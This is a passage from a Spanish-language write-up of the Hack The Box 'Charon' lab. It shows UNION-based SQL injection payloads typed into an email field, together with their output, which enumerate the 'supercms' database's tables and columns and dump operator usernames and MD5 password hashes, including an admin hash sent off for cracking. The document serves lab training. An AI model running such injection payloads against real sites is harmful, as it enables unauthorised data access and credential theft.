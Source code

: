 ```bash
Email: test@test.com' UNion select 1,2,3,concat(table_name,"@.") from information_schema.tables where table_schema="supercms" limit 3,1-- -
[*] User not found with that email!    
Email: 
```

Ya tenemos las tablas que componen la base de datos `supercms` que son `license` y `operators`. Aqui ya nos llama más la atención la segunda tabla, así que vamos a listar las columnas de dicha tabla:

```bash
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 1,1-- -
[*] Email sent to: __username_@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 2,1-- -
[*] Email sent to: __password_@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 3,1-- -
[*] Email sent to: email@.=
Email: test@test.com' UNion select 1,2,3,concat(column_name,"@.") from information_schema.columns where table_name="operators" limit 4,1-- -
[*] User not found with that email!    
Email:  
```

Ya tenemos las columnas de la tabla `operators`, las cuales son: `__username_`, `__password_` y `email`. Por lo tanto, lo que nos queda es listar los datos de dichas columnas.

```bash
[*] Email sent to: test51:5f4dcc3b5aa765d61d8327deb882cf99@.=
Email: test@test.com' UNion select 1,2,3,concat(__username_,0x3a,__password_,"@.") from operators limit 100,1-- -
[*] Email sent to: test101:5f4dcc3b5aa765d61d8327deb882cf99@.=
Email: test@test.com' UNion select 1,2,3,concat(__username_,0x3a,__password_,"@.") from operators limit 200,1-- -
[*] Email sent to: super_cms_adm:0b0689ba94f94533400f4decd87fa260@.=
Email:
```

Vemos varios usuarios, pero ya tenemos uno que nos debe llamar mucho la atención: `super_cms_adm` y tenemos su contraseña hasheada; por lo que vamos a crackearla con la herramienta online [crackstation](https://crackstation.net/)

![](/assets/images/htb-charon/charon-hash.png)
